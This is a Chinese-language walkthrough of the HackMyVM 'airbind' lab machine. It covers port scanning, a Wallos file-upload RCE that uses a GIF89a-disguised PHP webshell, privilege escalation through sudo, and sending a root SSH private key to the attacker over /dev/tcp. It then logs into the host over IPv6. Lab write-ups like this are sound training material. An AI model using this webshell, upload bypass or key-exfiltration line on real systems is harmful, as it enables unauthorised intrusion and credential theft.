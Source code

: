 # hmv_airbind

**靶机**：https://hackmyvm.eu/machines/machine.php?vm=airbind
**难度**：黄色
**目标 IP**：192.168.205.212
**本机** IP：192.168.205.141

---

### **1. 端口枚举及服务探测**

首先，使用 `nmap` 扫描目标 IP 的开放端口：

```bash
┌──(kali㉿kali)-[~/test]
└─$ nmap -sV -sT -O -Pn -n -p- 192.168.205.212
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 17:39 CST
Nmap scan report for 192.168.205.212
Host is up (0.00029s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.57 ((Ubuntu))
MAC Address: 08:00:27:AD:E1:D7 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=12/29%OT=80%CT=1%CU=32430%PV=Y%DS=1%DC=D%G=Y%M=0800
OS:27%TM=677118F6%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%
OS:II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11N
OS:W7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE8
OS:8%W6=FE88)ECN(R=Y%DF=Y%T=3F%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=3F
OS:%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T
OS:=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=
OS:0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(
OS:R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.31 seconds
```

扫描结果显示目标机器开放了 22 (SSH) 和 80 (HTTP) 端口。

---

### **2. Web 服务探测与Wallos 文件上传漏洞**

对 80 端口感兴趣，访问 Web 页面，是个登录网页，扫描一下结构

```bash
┌──(kali㉿kali)-[~/test]
└─$ whatweb http://192.168.205.212/login.php
http://192.168.205.212/login.php [200 OK] Apache[2.4.57], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.57 (Ubuntu)], IP[192.168.205.212], PasswordField[password], Title[Wallos - Subscription Tracker]   
```

看有没有漏洞

```bash
┌──(kali㉿kali)-[~/test]
└─$ searchsploit Wallos
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Wallos < 1.11.2 - File Upload RCE                                                                    | php/webapps/51924.txt
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                         
```

是个文件上传，要登录进去，尝试一下弱密码

`admin`:`admin`就这么水灵灵的进去了

[exploit-db](https://www.exploit-db.com/exploits/51924)想看原版利用的可以在这看,我直接放翻译上来了

```bash
# 漏洞标题：Wallos - 文件上传 RCE（已验证）
# 日期：2024-03-04
# 漏洞作者：sml@lacashita.com
# 供应商主页：https://github.com/ellite/Wallos
# 软件链接：https://github.com/ellite/Wallos
# 版本：< 1.11.2
# 测试平台：Debian 12

Wallos 允许您在创建新订阅时上传图像/徽标。

可以绕过此漏洞来上传恶意 .php 文件。

POC
---

1) 登录应用程序。
2) 转到“新订阅”
3) 上传徽标并选择您的 webshell .php
4) 发出请求，将 Content-Type 更改为 image/jpeg 并添加“GIF89a”，它应该是这样的：

--- SNIP -----------------

POST /endpoints/subscription/add.php HTTP/1.1

主机：192.168.1.44

用户代理：Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

接受：*/*

接受语言：en-US,en;q=0.5

接受编码：gzip，deflate

引用：http://192.168.1.44/

内容类型：multipart/form-data;边界=---------------------------29251442139477260933920738324

来源：http://192.168.1.44

内容长度：7220

连接：关闭

Cookie：theme=light；language=en；PHPSESSID=6a3e5adc1b74b0f1870bbfceb16cda4b；theme=light

-----------------------------29251442139477260933920738324

内容处置：form-data；name="name"

测试

-----------------------------29251442139477260933920738324

内容处置：form-data；name="logo"； filename="revshell.php"

Content-Type: image/jpeg

GIF89a;

<?php
system($_GET['cmd']);
?>

-----------------------------29251442139477260933920738324

Content-Disposition: form-data; name="logo-url"

----- SNIP -----

5) 您将收到文件已成功上传的响应：

{"status":"Success","message":"Subscription updated successful"}

6) 您的文件将位于：
http://VICTIM_IP/images/uploads/logos/XXXXXX-yourshell.php
```

总结一下就是经典的gif伪装，把下面内容做个`revshell.php.png`传上去，拿burp拦一下删除`.png`后缀就可以了（直接传不一定行，你们可以试试）

```bash
GIF89a;

<?php
system($_GET['cmd']);
?>
```

传上去打开`http://192.168.205.212/images/uploads/logos/`就可以看到了

![image](https://github.com/user-attachments/assets/509e49e8-17f9-46f4-b10e-7cba613d11db)

`http://192.168.205.212/images/uploads/logos/1735465582-1.php?cmd=id`就会发现执行成功，建议传个sh上去拿shell，我试了2个反弹都弹不回来

### 3.**获得稳定 shell**

获得交互式 TTY shell：

```bash
script /dev/null -c bash  
ctrl+z  
stty raw -echo; fg  
reset xterm  
export TERM=xterm  
echo $SHELL  
export SHELL=/bin/bash  
stty rows 59 cols 236
```

### 4.**提权**

上到去`sudo -l`有惊喜

```bash
www-data@ubuntu:/home$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL

```

执行任意命令

```bash
www-data@ubuntu:/home$ sudo bash -p
root@ubuntu:/home# id
uid=0(root) gid=0(root) groups=0(root)
```

当然当你打开`/root/`目录，你就会看到只有`user.txt`，所以这个应该是一个容器

```bash
root@ubuntu:/home/ubuntu# hostname -I
10.0.3.241 
```

确实是容器，在目录下还看到一个`.ssh`的登录密钥,拿过去我们那测试登录真机

```bash
#容器
root@ubuntu:~/.ssh# cat id_rsa > /dev/tcp/192.168.205.141/7777
#攻击机
nc -lvnp 7777 > id_rsa
```

测试登录ipv4登不上，他把端口关了（可以看最前面的扫描结果），那我们就连接ipv6

```bash
└─$ ping6 -I eth0 ff02::1
ping6: Warning: source address might be selected on device other than: eth0
PING ff02::1 (ff02::1) from :: eth0: 56 data bytes
64 bytes from fe80::4e47:7084:75d9:9c4%eth0: icmp_seq=1 ttl=64 time=0.148 ms
64 bytes from fe80::a00:27ff:fead:e1d7%eth0: icmp_seq=1 ttl=64 time=0.823 ms
64 bytes from fe80::4e47:7084:75d9:9c4%eth0: icmp_seq=2 ttl=64 time=0.055 ms
64 bytes from fe80::a00:27ff:fead:e1d7%eth0: icmp_seq=2 ttl=64 time=0.537 ms
64 bytes from fe80::4e47:7084:75d9:9c4%eth0: icmp_seq=3 ttl=64 time=0.047 ms
64 bytes from fe80::a00:27ff:fead:e1d7%eth0: icmp_seq=3 ttl=64 time=0.493 ms
64 bytes from fe80::4e47:7084:75d9:9c4%eth0: icmp_seq=4 ttl=64 time=0.038 ms
64 bytes from fe80::a00:27ff:fead:e1d7%eth0: icmp_seq=4 ttl=64 time=0.350 ms
64 bytes from fe80::4e47:7084:75d9:9c4%eth0: icmp_seq=5 ttl=64 time=0.041 ms
64 bytes from fe80::a00:27ff:fead:e1d7%eth0: icmp_seq=5 ttl=64 time=0.349 ms
64 bytes from fe80::4e47:7084:75d9:9c4%eth0: icmp_seq=6 ttl=64 time=0.035 ms
64 bytes from fe80::a00:27ff:fead:e1d7%eth0: icmp_seq=6 ttl=64 time=0.332 ms
^C
--- ff02::1 ping statistics ---
6 packets transmitted, 6 received, +6 duplicates, 0% packet loss, time 5116ms
rtt min/avg/max/mdev = 0.035/0.270/0.823/0.244 ms
                                                                                  
```

发广播看看谁在线，然后一个个试就好了（桥接真实网卡别这么连，建议把桥接换成NAT模式再尝试）

```bash
┌──(kali㉿kali)-[~/test]
└─$ ssh -i id_rsa root@fe80::a00:27ff:fead:e1d7%eth0
Linux airbind 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@airbind:~# id
uid=0(root) gid=0(root) groupes=0(root)
```